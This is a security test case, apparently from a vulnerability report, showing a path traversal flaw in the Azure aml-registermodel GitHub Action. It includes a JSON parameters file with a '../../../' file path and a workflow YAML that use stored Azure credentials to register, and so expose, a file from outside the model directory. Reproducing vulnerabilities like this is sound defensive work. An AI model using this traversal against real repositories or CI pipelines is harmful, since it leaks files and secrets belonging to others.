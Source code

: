 * **Security Test Case:**
    1. Create a file named `sensitive_data.txt` in the root of the repository with some sensitive content (e.g., "This is sensitive information.").
    2. Create a new branch in the repository (e.g., `malicious-model-registration`).
    3. Modify the `.cloud/.azure/registermodel.json` file in the new branch to include the following content:
    ```json
    {
      "model_file_name": "../../../sensitive_data.txt",
      "model_name": "malicious-model"
    }
    ```
    4. Create a new workflow or modify an existing workflow in `.github/workflows/` to trigger the `aml-registermodel` action on pushes to the `malicious-model-registration` branch. Ensure that `experiment_name` and `run_id` inputs are not set to trigger local model registration.
    ```yaml
    name: Malicious Model Registration Test
    on:
      push:
        branches:
          - malicious-model-registration

    jobs:
      register_malicious_model:
        runs-on: ubuntu-latest
        steps:
          - name: Checkout repository
            uses: actions/checkout@v3

          - name: Azure Login
            uses: azure/login@v1
            with:
              creds: ${{ secrets.AZURE_CREDENTIALS }}

          - name: Register Malicious Model
            uses: Azure/aml-registermodel@v1
            with:
              azure_credentials: ${{ secrets.AZURE_CREDENTIALS }}
              parameters_file: ".cloud/.azure/registermodel.json"
    ```
    5. Commit and push the changes to the `malicious-model-registration` branch.
    6. After the workflow run completes successfully, go to the Azure Machine Learning workspace and check the registered models.
    7. Verify that a model named `malicious-model` is registered.
    8. Download the `malicious-model` and inspect its content. It should contain the content of the `sensitive_data.txt` file, proving that an arbitrary file from outside the intended model directory was successfully registered due to path traversal.